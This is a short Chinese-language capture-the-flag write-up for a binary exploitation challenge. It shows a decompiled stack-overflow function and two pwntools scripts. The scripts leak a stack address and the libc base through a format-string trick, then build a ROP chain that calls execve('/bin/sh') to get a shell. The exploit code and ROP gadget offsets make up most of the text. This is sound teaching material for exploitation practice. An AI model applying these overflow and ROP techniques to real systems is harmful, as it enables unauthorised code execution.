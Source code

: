```c
}
ssize_t __fastcall vuln(unsigned int a1)
{
  char buf[4]; // [rsp+1Ch] [rbp-4h] BYREF

  printf("type something:");
  return read(0, buf, a1);
}
```

那么我们利用栈溢出将程序的执行流返回到`printf(format);`的位置.由于format实际上是指rbp-0x10,所以我们可以通过更改rbp的值控制vuln返回后的rbp,使它指向一个我们伪造的栈空间:

```python
from pwn import *

r=process("./vuln")
pause()
context.log_level='debug'
r.recvuntil(b"you have n chance to getshell\n n = ")
r.sendline(b"1")
pay="%p\n"
r.recvuntil(b"type something:")
r.send(pay)
r.recvuntil("you type: ")
stack_add=int(r.recvuntil(b"you")[:-3],16)
print(hex(stack_add))
r.recvuntil(b"n = ")
r.sendline(b"-1")
#r.sendline(b"-1")
printf_add=0x4012CF

pay=b'aaaaa'+p64(stack_add+0x2130)+p64(printf_add)+b"%3$p"+b"\x00\x00\xff\xff"+p64(0)+p64(0)
#
r.sendline(pay)
```

这样,我们就能泄露libc基址,通过ret2libcgetshell.

```python
r.recvuntil(b"type something:")
libc_base=int(r.recvuntil(b"you")[:-3],16)-0x1147E2
print(hex(libc_base))
r.recvuntil(b"n = ")
r.sendline(b"-1")
libc=ELF("./libc.so.6")
sys_add=libc.sym["system"]+libc_base
binsh_add=next(libc.search(b"/bin/sh"))+libc_base
rdi_add=0x2a3e5+libc_base
rsi_add=0x2be51+libc_base
rdxr12_add=0x11f2e7+libc_base
rax_add=0x045eb0+libc_base
syscall_add=0x91316+libc_base
pay2=b'a'+p64(stack_add+0x2130)+p64(rdi_add)+p64(binsh_add)+p64(rsi_add)+p64(0)+p64(rdxr12_add)+p64(0)*2+p64(rax_add)+p64(0x3b)+p64(syscall_add)
r.sendline(pay2)
r.interactive()
```
